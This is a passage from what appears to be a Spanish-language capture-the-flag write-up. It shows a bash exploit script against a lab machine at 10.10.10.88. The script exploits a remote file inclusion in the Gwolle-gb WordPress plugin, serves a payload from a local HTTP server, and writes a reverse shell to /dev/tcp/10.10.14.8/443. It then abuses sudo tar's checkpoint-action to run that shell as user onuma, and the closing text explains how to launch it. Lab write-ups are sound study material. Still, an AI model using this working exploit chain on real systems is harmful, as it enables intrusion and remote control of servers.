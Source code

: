 ```bash
    system("echo '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.8/443 0>&1' > /dev/shm/s4vishell.sh");
    system("sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=\"bash /dev/shm/s4vishell.sh\"");
?>
EOF
}

function makeRequest(){
    if [ "$(echo $username)" == "www-data" ]; then
        makeWWWDataFile
        python3 -m http.server 80 &>/dev/null &
        curl -s -X GET "http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8/"
        rm wp-load.php
        kill -9 $(lsof -i:80 | grep "python" | awk '{print $2}') &>/dev/null
    elif [ "$(echo $username)" == "onuma" ]; then
        makeOnumaFile
        python3 -m http.server 80 &>/dev/null &
        curl -s -X GET "http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8/"
        rm wp-load.php
        kill -9 $(lsof -i:80 | grep "python" | awk '{print $2}') &>/dev/null
    else
        echo -e "\n[!] El usuario es invÃ¡lido\n"
        exit 1
    fi
}

declare -i parameter_counter=0; while getopts ":u:h:" arg; do
    case $arg in
        u) username=$OPTARG; let parameter_counter+=1;;
        h) helpPanel;;
    esac
done

if [ $parameter_counter -eq 0 ]; then
    helpPanel
else
    makeRequest
fi
```

Para usar este script, nos tenemos previamente que poner en escucha por el puerto 443 y con otra shell, usar el exploit:

- para acceder a la maquina como el usuario www-data

    ```bash
    ./exploitTheThing.sh -u www-data
    ```
